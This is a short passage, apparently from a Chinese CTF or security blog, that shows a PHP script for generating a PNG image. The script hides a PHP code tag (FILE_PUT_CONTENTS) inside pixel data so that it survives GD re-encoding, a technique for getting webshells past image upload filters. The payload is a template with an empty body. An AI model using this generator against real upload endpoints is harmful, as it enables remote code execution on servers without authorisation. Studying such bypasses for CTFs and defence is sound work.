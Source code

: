 010editor分析文件

![png](https://the0n3.top/medias/show-upload/png.png)

这里是其他师傅改进的版本，可以写入自定义内容，字母只能是大写字母，否则报错，出现小写字母会报错的奇怪bug

```php
<?php 
/* cX<?PHP 不可取消 但可以替换为c<?=
   ?>X<0x00><0x00> 不可删除。*/
$a='cX<?PHP FILE_PUT_CONTENTS();?>X'.urldecode('%00').urldecode('%00');

$payload_ascii='';
for($i=0;$i<strlen($a);$i++){
    $payload_ascii.=bin2hex($a[$i]);
}

$payload_hex=bin2hex(gzinflate(hex2bin($payload_ascii)));

// echo $payload_hex."\n";
preg_match_all('/[a-z0-9]{2}/', $payload_hex, $matches);

$blist=[];

foreach($matches[0] as $key => $value){
    $blist[$key]=base_convert($value, 16, 10);
}

function filter1($blist){
    for($i=0; $i<(count($blist)-3);$i++){
        $blist[$i+3] = ($blist[$i+3] + $blist[$i]) %256;
    }
    return array_values($blist);
}

function filter3($blist){
    for($i=0; $i<(count($blist)-3);$i++){
        $blist[$i+3] = ($blist[$i+3] + floor($blist[$i]/2) ) %256;
    }
    return array_values($blist);
}
$p=array_merge(filter1($blist), filter3($blist));
$img = imagecreatetruecolor(32, 32);

// echo sizeof($p);
for ($y = 0; $y < sizeof($p)-3; $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   // echo $color;
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'./1.png');
```
